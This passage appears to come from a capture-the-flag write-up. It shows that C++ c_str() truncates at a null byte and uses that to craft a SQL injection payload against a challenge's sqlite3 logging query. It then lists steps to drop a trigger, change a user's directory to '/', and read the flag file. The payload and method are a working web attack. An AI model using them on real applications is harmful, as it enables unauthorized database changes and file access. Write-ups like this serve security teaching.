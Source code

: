 According to the [`c_str` method documentation](https://cplusplus.com/reference/string/string/c_str/), it says:
>  Returns a pointer to an array that contains a **null-terminated** sequence of characters (i.e., a C-string) representing the current value of the string object.

Aha! It's NULL-terminated!

Now, let's test our theory in an online compiler:

[https://www.programiz.com/online-compiler/47DtAKmitON01](https://www.programiz.com/online-compiler/47DtAKmitON01):

```c++
#include <iostream>
#include <string>

int main() {
    std::string myString = "Hello\x00World!";
    std::cout << myString.c_str() << std::endl;
    return 0;
}
```

If we compile and run this, it'll print `Hello` to the stdout (Standard output)!

Therefore, our theory is correct!

So, if our payload is like this, where `\0` is the NULL byte:

```sql
');UPDATE users SET scrap_dir=char(47) WHERE id=1\0
```

The injected query should be this:

```sql
INSERT INTO logs
VALUES('');UPDATE users SET scrap_dir=char(47) WHERE id=1\0');
SELECT *
FROM logs
WHERE entry = '');UPDATE users SET scrap_dir=char(47) WHERE id=1\0'
LIMIT 1;
```

And the final query in the `sqlite3` binding will be:

```sql
INSERT INTO logs
VALUES('');UPDATE users SET scrap_dir=char(47) WHERE id=1
```

## Exploitation

Armed with above information, we can get the final flag by:
1. Drop trigger `users_immutable_dirs` via SQL injection
2. Update our user `scrap_dir` column value to `/` via SQL injection
3. Login to our user again and get the flag filename in `/files`
4. Read the flag file in `/files/flag<uuid>.txt`

